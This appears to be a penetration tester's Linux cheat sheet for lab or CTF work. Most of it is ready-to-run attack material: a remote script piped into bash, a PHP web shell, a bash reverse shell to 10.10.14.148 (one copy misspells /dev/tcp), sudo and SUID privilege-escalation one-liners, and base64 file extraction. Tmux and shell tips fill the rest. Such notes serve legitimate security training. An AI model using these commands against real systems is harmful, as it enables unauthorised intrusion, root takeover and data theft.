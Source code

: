 # Linux

## Linux

Website for searching for shells through random programs such as 'vi' "living off the land binaries": [GTFObins](https://gtfobins.github.io/)

### Enumeration

find files user has access to:

```bash
find / -user <username> -ls 2>/dev/null
```
`which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null` - Check if each of these useful programs are installed on the machine

[Linux Privilege Checker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

full linux enumeration:

* [LinEnum.sh](https://github.com/rebootuser/LinEnum) 
* [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

download **and**  execute script \(such as LinEnum.sh\) \[from remote host\]: `curl <url or IP>/LinEnum.sh | bash`

Locate exploits:

```bash
searchsploit <name_of_program> 
#to pull exploit code:
searchsploit -x <name/number of exploit>
```

enumerate running processes: `pspy`

enumeration multi-tool: [Sparta](https://sparta.secforce.com/) \(does nmap, hydra, nikto, sqlscan, ssl...\)

Unix hardening tool that can be used for enumeration: [Bastille](http://bastille-linux.sourceforge.net/)

enumerate info about current processes running from: `/proc/self/status`

common Local File Inclusion locations: [https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI](https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI)

### Upgrade shells:

```text
1. sudo python -c 'import pty; pty.spawn("/bin/sh")'
2. sudo perl -e 'exec "/bin/sh";'
3. sudo ruby -e 'exec "/bin/sh"'
```

php shell: `<?php system($_GET['variable_name']); ?>`

bash reverse shell:

```text
bash -i >& /dev/tct/10.10.14.148/9001 0>&1
#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

nc listener: `nc -lvnp <port>`

To upgrade to fully interactive shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #[to background]
stty raw -echo; 
fg #[to return shell to foreground]
export TERM=xterm
```

### TMUX

tmux can keep alive sessions if you lose ssh sessions etc, can split panes and more:

```text
tmux new -s <session_name> 
ctrl-b = prefix key (enables addnl commands) 
+[%] vertical pane  
+["] horizontal pane 
+[alt-space] switch pane between horizontal or vertical
+[arrow_keys] move between panes 
+[z] zoom in/out on pane 
+[?] help for tmux 
+[t] timer
```

tmux plugins:

* tmux logging plugin \(get this!!\) can save log of tmux windows
* [better mouse mode](https://github.com/NHDaly/tmux-better-mouse-mode)

### Privilege Escalation

[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

execute command as another user: `sudo -u <username> [command]`

execute any command while in less: `!<cmd>`

Privilege Escalation to Root with suid /bin/less: `chmod 47555 /bin/less`

Privilege Escalation to Root with find: `sudo find /etc -exec sh -i \;`

wildcard injection: \[NEED MORE HERE\]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

```text
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page
```

### Misc Linux

Raw memory location so no files on disk: `/dev/shm/`

list all running commands:

```bash
ps -eo command`
#change delimiter to \n instead of <space> (loop by line): 
IFS=$'\n'
#Then loop through each line in output: 
for i in $(ps -eo command); do echo $i; done
```

'new' netstat: `ss -lnp | grep 9001` \#check if any connections on port 9001

get user's superuser permissions: `sudo -l`

copy files to local machine without file transfer:

```bash
base64 -w 0 /path/of/file/name.file 
#copy base64 then: 
echo -n <base64material> | base64 -d > filename.file
```

pretty print text in console? \[Haven't looked this one up\]: `jq`

web application fuzzer: [wfuzz](https://github.com/xmendez/wfuzz)

convert rpm to debian packages: `alien <file.rpm>`

Makes PWD part of path so dont need './' \[NOT RECOMMENDED!\]: `export PATH='pwd':$PATH`

cycle through previous arguments: `alt-.`

move between "words" on a command line `ctrl-[arrow_keys]`

